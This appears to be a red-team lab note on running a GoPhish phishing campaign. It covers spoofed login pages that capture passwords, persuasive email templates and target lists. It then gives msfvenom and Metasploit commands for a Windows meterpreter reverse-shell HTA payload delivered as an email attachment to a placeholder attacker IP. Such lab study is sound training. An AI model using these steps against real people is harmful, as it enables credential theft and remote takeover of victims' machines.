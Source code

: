Setting up GoPhish, sending a phishing campaign and capturing user credentials from a spoof website.

#### Sending Profiles
Sending profiles are the connection details required to actually send your Phishing emails; this is just an SMTP server that you have access to.
- **Name:** Local Server
- **From:** noreply@redteam.thm
- **Host:** 127.0.0.1:25
Then click **Save Profile**.

#### Landing Pages
This is the website that the Phishing email is going to direct the victim to; this page is usually a spoof of a website the victim is familiar with.
- **Name:** ACME Login
- **In HTML Box:** Press `Source` to allow us to enter the HTML code. 
- `Click the Source button again.`
- `Click the Capture Submitted Data box.`
- `Click the Capture Passwords box.`
- `Save Page Button`

#### Email Templates
This is the ***design and content of the email*** you're going to actually send to the victim; it will need to be ***persuasive and contain a link to your landing page*** to enable us to capture the victim's username and password. 
- `Name:` name the email
- `Subject:` subject the email
- `HTML:` choose **HTML** and **Source** to enable HTML editor mode. Write a **persuasive email** and ***add the link*** for the victim to click.
- `{{.URL}}:` click ***Link***, actual link will need to be set to this which will get changed to out spoofed landing page when the email gets sent.
- `other:` set the protocol to ***other***.
- `Save the Template`

#### Users & Groups
This is where we can store the email addresses of our ***intended targets***.
- `Name:` Targets
- `email:` add target emails
- `save`

#### Campaigns
Time to send your first emails.
- `Name:` Campaign One
- `Email Template:` Email 1

--- 
### Reverse Shell with GoPhish
#### Create a Payload with Msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali IP> LPORT=443 -f hta-psh -o payload.hta
```

#### Create a new listener in Metasploit
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost KALI_IP
run
```

#### Visit the GoPhish Website
```
https://localhost:3333
```

#### Sending Profile
As above

#### Landing Pages
As above, however; content can be anything.

#### Email Template
- Add the Msfvenom-created `.hta` file as an attachment.

#### Users & Groups
As above, with the position 1.

#### Campaigns
- Set the URL to `http://<Kali IP>:443`

Now, wait for the victim to open the payload which will give a shell back.




